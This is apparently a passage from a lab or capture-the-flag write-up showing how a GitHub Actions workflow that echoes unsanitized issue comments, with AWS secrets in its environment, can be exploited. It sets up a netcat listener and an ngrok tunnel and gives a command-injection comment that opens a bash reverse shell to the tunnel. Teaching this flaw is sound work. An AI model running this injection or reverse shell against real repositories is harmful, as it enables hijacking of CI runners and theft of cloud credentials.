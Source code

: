 So you inspect the github action:  

```yaml
name: issue comment workflow
on:
  issue_comment:
    types: [created]
jobs:
  auto-manage-new-issue:
    runs-on: ubuntu-latest
    steps:
      - name: Retrieve Issue Information
        run: |
          echo "NEW ISSUE COMMENT ✍️" && echo ${{ github.event.comment.body }}
        env:
          AWS_ACCESS_KEY_ID: ${{ secrets.AWS_ACCESS_KEY_ID }}
          AWS_SECRET_ACCESS_KEY: ${{ secrets.AWS_SECRET_ACCESS_KEY }}
```  

and you notice that they are echoing the content of the issue body (`${{ github.event.comment.body }}`) without sanitizing it! 

Maybe there is a way to pipe malicious commands by simply commenting on that issue 🤔  

At this point you can proceed to poison the execution 😈  

In order to do that you can use [*ngrok*](https://ngrok.com/) (you can also use [*Cloudflare Tunnels*](https://www.cloudflare.com/products/tunnel/) or whatever tool fit the need to seamlessy expose a local service to the internet).  


Open a new nectcat listener on your local machine:  
```sh
nc -lnvp 1337
```  

Forward an ngrok tcp tunnel on the same port: 

```sh
ngrok tcp 1337
```  

Now, retrieve the `Forwarding` address (DNS name) from ngrok output and execute a dns lookup in order to obtain the public IP.  

Our payload will be:  
```console
"" && bash -i >& /dev/tcp/<NGROK-IP-HERE>/<NGROK-PORT-HERE> 0>&1
```  

![evil-comment](./images/evil-comment.png)  
